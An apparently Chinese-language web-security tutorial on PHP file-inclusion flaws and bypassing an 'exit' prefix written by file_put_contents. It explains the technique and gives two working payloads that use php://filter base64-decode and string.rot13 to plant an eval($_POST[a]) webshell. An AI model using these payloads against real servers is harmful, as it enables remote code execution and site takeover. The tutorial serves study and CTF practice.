 





### 文件包含

文件包含漏洞顾名思义：包含恶意代码或恶意内容达到一定的攻击效果。

在文件包含漏洞当中，因为 ``php://filter`` 可以对所有文件进行编码处理，所以常常可以使用``php://filter``来包含读取一些特殊敏感的文件。

### 死亡绕过

#### bypass不同变量

```
<?php
$filename=$_GET['filename'];
$content=$_GET['content'];
file_put_contents($filename,"<?php exit();".$content);
```

$content在开头增加了exit过程，导致即使我们成功写入一句话，也执行不了（这个过程在实战中十分 常见，通常出现在缓存、配置文件等等地方，不允许用户直接访问的文件，都会被加上 if(!defined(xxx))exit;之类的限制）。那么这种情况下，如何绕过这个“死亡exit”？

思路其实也很简单我们只要将content前面的那部分内容使用某种手段（编码等）进行处理，导致php不 能识别该部分就可以了。

这里的$_GET['filename']是可以控制协议的。

**base64绕过**

**base64编码是使用64个可打印ASCII字符(A-Z、a-z、0-9、+、/)将任意字节序列数据编码成ASCII字符串，另有``=``符号作为后缀识别作用。**

base64编码中只包含64个可打印字符，而PHP在解码base64时，遇到不在其中的字符时，将会跳过这 些字符，仅将合法字符组成一个新的字符串进行解码。

当$content被加上了以后，我们可以使用 php://filter/write=convert.base64-decode 来首先对其解码。在解码的过程中，字符``<? ; >`` 空格等一共有7个字符不符合base64编码的字符范围将被忽略，所以 最终被解码的字符仅有``phpexit``和我们传入的其他字符。

由于，``phpexi``一共7个字符，但是base64算法解码时是4个byte一组，所以我们可以随便再给他添加 一个字符。这样前边的``phpexit``加上另一个字符就会被base64解码，然后后边的我们精心构造的base64 字符串也会被成功解码为php代码。

payload：

```
?filename=php://filter/convert.base64-
decode/resource=1.php&content=aPD9waHAgZXZhbCgkX1BPU1RbYV0pOw==
```

**rot13绕过**

利用php://filter中string.rot13过滤器去除``exit``。string.rot13的特性是编码和解码都是自身完成，利用 这一特性可以去除exit。`` <?php exit; ``在经过rot13编码后会变成``<?cuc rkvg(); ``，不过这种利用手法的前提是PHP不开启short_open_tag。

[![cixx2V.md.png](https://z3.ax1x.com/2021/03/30/cixx2V.md.png)](https://imgtu.com/i/cixx2V)

虽然官方说的默认开启，但是在php.ini中默认是注释掉的，也就是说它还是默认关闭。

``<?php eval($_POST[a]);`` rot13编码后``<?cuc riny($_CBFG[n]);``。

payload：

```
?filename=php://filter/write=string.rot13/resource=2.php&content=<?cuc
riny($_CBFG[n]);
```
